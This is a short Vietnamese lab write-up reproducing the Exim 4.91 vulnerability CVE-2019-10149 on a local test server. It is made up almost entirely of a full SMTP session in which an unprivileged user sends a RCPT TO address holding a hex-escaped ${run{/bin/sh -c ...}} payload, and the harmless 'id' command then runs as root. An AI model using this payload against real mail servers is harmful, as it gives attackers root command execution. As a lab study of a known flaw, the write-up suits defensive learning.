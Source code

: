 ```yaml
---
date: 2019-06-14
title: CVE_2019-10149
categories:
  - CVE_2019-10149
description: CVE_2019-10149
author: minhnv
tags: [CVE_2019-10149]
type: Document
---
```


# CVE_2019-10149

## Môi trường LAB 

`Exim version 4.91`

## Thực hiện 

- Mục tiêu tạo ra file `/tmp/id` chứ thông tin id user 

- Ban đầu kiểm tra xem có tồn tại file /tmp/id

```
[root@testexim ~]# cat /tmp/id 
cat: /tmp/id: No such file or directory
[root@testexim ~]# 
```

- Trên user minhkma thực hiện 

```
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}
```

```
[minhkma@testexim ~]$ nc 127.0.0.1 25
220-cpanel.localhost.localdomain ESMTP Exim 4.91 #1 Fri, 14 Jun 2019 16:50:25 +0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
HELO localhost
250 cpanel.localhost.localdomain Hello localhost [127.0.0.1]
MAIL FROM:<>
250 OK
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}@localhost>    
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31

.
250 OK id=1hbirS-0000mL-ER
QUIT
221 cpanel.localhost.localdomain closing connection


Ncat: Broken pipe.
```

- Sau đó quay lại kiểm tra 

```
[root@testexim ~]# cat /tmp/id 
uid=0(root) gid=12(mail) groups=12(mail)
uid=0(root) gid=12(mail) groups=12(mail)
```

- Tài liệu tham khảo 

    + https://www.exploit-db.com/exploits/46974
    + https://www.zdnet.com/article/exim-email-servers-are-now-under-attack/
    + https://www.openwall.com/lists/oss-security/2019/06/06/1